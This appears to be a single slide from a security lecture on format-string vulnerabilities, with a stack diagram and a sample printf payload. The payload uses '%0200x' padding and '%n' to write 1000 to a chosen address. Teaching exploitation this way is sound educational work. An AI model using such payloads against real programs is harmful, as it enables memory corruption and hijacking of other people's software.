

# BuT…
|  |
| --- |
| %0200x%0200x%0200x%0200x%0200x%n\n \x08\x47\x55\x55\x55\x55\x00\x00 |
| … |
| saved rbp |
| saved rip (return address) |
| … |
Goal: [0x555555554708] = 1000
char buf[] = “%0200x%0200x%0200x%0200x%0200x%n\n” + little_end(0x555555554708);

printf(buf);

rsp ->
rbp ->
rbp + 8 ->
38